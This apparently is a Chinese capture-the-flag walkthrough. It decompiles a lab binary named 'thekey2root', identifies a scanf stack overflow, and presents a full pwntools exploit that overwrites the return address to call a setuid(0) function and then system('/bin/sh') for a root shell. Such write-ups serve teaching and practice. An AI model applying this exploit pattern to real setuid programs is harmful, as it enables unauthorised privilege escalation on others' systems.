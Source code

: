 在用户目录下查找到一个二进制文件**thekey2root**，使用**32位ida**进行反编译

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  system("echo 'input something:'");
  input(&argc);
  system("echo 'thanks for your input'");
  return 0;
}

int input()
{
  char v1[24]; // [esp+Ch] [ebp-1Ch] BYREF

  return __isoc99_scanf("%s", v1);
}

int sing_dance_rap()
{
  setuid(0);
  setgid(0);
  return system("echo 'Hey,bro! What are you looking for?'");
}
```

可以看到很明显的栈溢出漏洞，让**deepseek**帮助写一个脚本

```
from pwn import *

# 设置上下文和程序路径
context(arch='i386', os='linux')
elf = ELF('./thekey2root')  # 替换为你的程序名

# 获取函数地址
sing_dance_rap_addr = elf.symbols['sing_dance_rap']
system_addr = elf.plt['system']

# 通过调试获取v1的地址（例如：0xffffd0ac）
v1_addr = 0xffe8378c # 替换为实际地址

# 构造payload
payload = b'/bin/sh\x00'        # 将/bin/sh写入缓冲区
payload += b'A' * (32 - len(payload))  # 填充至32字节
payload += p32(sing_dance_rap_addr)    # 覆盖返回地址到sing_dance_rap
payload += p32(system_addr)            # sing_dance_rap返回后执行system
payload += p32(0xdeadbeef)             # system的返回地址（占位）
payload += p32(v1_addr)                # system的参数，指向/bin/sh

# 启动进程并发送payload
p = process('./thekey2root')
p.send(payload)  # 使用send而非sendline避免附加换行符
p.interactive()   # 进入交互模式
```
